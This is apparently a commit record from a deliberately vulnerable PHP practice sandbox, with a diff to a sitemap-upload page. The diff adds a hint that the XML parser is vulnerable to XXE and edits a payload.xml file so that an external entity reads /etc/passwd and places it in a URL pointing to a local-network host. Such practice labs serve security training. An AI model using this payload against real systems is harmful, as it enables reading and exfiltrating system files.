

Before and after one commit to shiblisec/red_assassin_sandbox, a PHP site: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (38-731 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
bug fixed

```diff
--- a/sitemap parser/index.php
+++ b/sitemap parser/index.php
@@ -13,13 +13,18 @@
 <body>
 <div class="container">
   <h1>Upload your sitemap</h1>
+  <p>Hint: The xml parser is vulnerable to XXE</p>
   <form action="parse.php" method="POST" enctype="multipart/form-data">
    <div class="form-group">
      <input type="file" name="sitemap" />
    </div>
    <button type="submit" class="btn btn-primary">Submit</button>
  </form>
+</div>
 
-</div>
+<footer class="page-footer font-small blue">
+  <div class="footer-copyright text-center py-3">Made by <a target="_blank" href="http://twitter.com/PsychoCodes/">shibli2700</a></a>
+  </div>
+</footer>
 </body>
 </html>
--- a/sitemap parser/payload.xml
+++ b/sitemap parser/payload.xml
@@ -1,6 +1,6 @@
 <?xml version="1.0" encoding="utf-8"?>
 <!DOCTYPE urlset [
- <!ENTITY xxe "file:///etc/hostname">
+ <!ENTITY xxe SYSTEM "file:///etc/passwd">
 ]>
     <url>
         <loc>http://192.168.0.19:8000/?data=&xxe;</loc>
```
